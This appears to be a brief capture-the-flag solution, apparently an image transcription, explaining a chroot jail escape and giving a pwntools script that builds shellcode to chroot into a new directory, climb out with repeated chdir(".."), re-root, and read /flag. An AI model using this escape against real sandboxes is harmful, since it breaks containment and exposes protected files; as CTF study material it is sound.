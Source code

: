 chroot again and chdir("..") many times, then chroot(".") to change the value of '/' of the process.    
```
from pwn import *
context(log_level = 'info', arch = 'amd64', os = 'linux')
shellcode=shellcraft.mkdir('foo')
shellcode+=shellcraft.chroot('foo')
shellcode+=shellcraft.chdir('..')
shellcode+=shellcraft.chdir('..')
shellcode+=shellcraft.chdir('..')
shellcode+=shellcraft.chdir('..')
shellcode+=shellcraft.chroot('.')
shellcode+=shellcraft.open("/flag")
shellcode+=shellcraft.read(4, 0x13373e8, 0x100)
shellcode+=shellcraft.write(1, 0x13373e8, 0x100)
shellcode=asm(shellcode)
sys.stdout.buffer.write(shellcode)
```
